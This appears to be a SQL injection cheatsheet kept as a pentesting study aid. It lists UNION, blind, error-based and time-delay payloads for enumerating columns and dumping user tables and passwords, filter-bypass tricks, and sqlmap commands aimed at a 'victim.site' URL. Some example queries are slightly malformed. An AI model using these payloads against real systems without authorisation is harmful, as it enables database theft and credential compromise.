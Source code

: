 # SPIROS (SQL Cheatsheet)

## SQL Cheatsheet:

### Commenting in SQL

![commenting diagram](img/sql_cheatsheet/sql%20comments.jpg)

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.
> When using `#` as a comment for MySQL, there's no need to add a space after.

### Overview for SQLi

|No.|Steps|Method|
|---|---|---|
|1|Identify instances where application access DB| Look at URL param, cookies, POST data, HTTP headers|
|2|Try injecting SQL| Start with single quotes, concatenator characters, eg: `' 'FOO`|
|3|Determine no. of cols| `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` ... until there's no error|
|4.1|Determine which cols have string data type| `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` ... until there's no error |
|4.2|Determine which cols have numeric data type| `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`... until there's no error|
|4.3|Use conditional responses if there's no direct method of transmitting data|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`|
|4.4.1|Use conditional errors if there's no noticeable effect on application behavior|`SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username|
|4.4.2|Conditional errors (time delay)|`' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server's response.
|5|Extracting table and cols name|`' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`|
|6.1|Dumping DB using multi cols with string data type|`' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`|
|6.2|Dumping DB using 1 col with string data type|`SELECT CONCAT(username,':',password), NULL, NULL from users -- -`|
|6.3|Dumping DB using multi cols with numeric data type|`' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., 'q')|
|6.4|Dumping DB using conditional responses|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter 'q'|

### Bypassing filters

|Types of blacklisting filter|Ways to bypass|
|---|---|
|Strings|Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`|
|Comments|Use `' OR 'a'='a` instead of `' OR 1=1 -- -`|
|Keywords|Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54`

### SQLmap

|Types of attack|Methods|
|---|---|
|POST request|`sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs`|
|GET request|`sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`|
|Using Request file from Burpsuite|`sqlmap -r <path to .req file> -p user –dbs`|

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```
### Second Order SQLi

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

### Good resources

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)